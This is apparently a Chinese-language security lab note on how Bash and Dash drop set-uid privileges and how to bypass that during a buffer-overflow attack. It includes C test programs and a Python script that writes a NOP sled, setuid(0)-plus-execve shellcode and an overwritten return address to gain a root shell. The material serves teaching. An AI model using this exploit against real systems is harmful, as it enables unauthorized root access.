



# 攻破Bash和Dash保护机制

Set-UID中讲过，在Ubuntu 16.04以上版本，发现在set-uid进程中运行时，会立刻把有效用户id变成
实际用户id，主动放弃特权。通过缓冲区溢出攻击，可以绕过这个保护机制。

## 绕过保护机制的两种方法

1、使用没有保护机制的shell，如zsh  
2、执行Dash之前调用setuid(0)，把真实用户id改成0  

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    char *argv[2];
    argv[0] = "/bin/sh";
    argv[1] = NULL;
    
    execve("/bin/sh", argv, NULL);
    return 0;
}
```


可以看到set-uid进程中运行时，被放弃了特权，最后得到的是普通的shell

程序中增加一行setuid(0)
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    char *argv[2];
    argv[0] = "/bin/sh";
    argv[1] = NULL;
    
    setuid(0);
    execve("/bin/sh", argv, NULL);
    return 0;
}
```


## 用新的shellcode执行缓冲区溢出攻击

exploit.py改为：
```python
#!/usr/bin/python3
import sys


shellcode = (
    "\x31\xc0"
    "\x31\xdb"
    "\xb0\xd5"
    "\xcd\x80"
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')
content = bytearray(0x90 for i in range(300))
start = 300 - len(shellcode)
content[start:] = shellcode

ret = 0xbffff528 + 100
content[112:116] = (ret).to_bytes(4, byteorder='little')
file = open("badfile", "wb")
file.write(content)
file.close()
```
代码解读，前四行shellcode是新增加的，前三条是将ebx置0并让eax等于0xd5（这个值是setuid()系统调用的号码），
第四条指令执行setuid(0)系统调用。


可以看到用新的shellcode执行攻击后，uid直接就是root了

!!! warning

    注意前面那个暴力破解寻找地址的实验做过后，会破坏系统，导致做这个实验死活出不来结果。
    出不来结果时，先验证准备攻击环境里那个缓冲区溢出实验能否成功。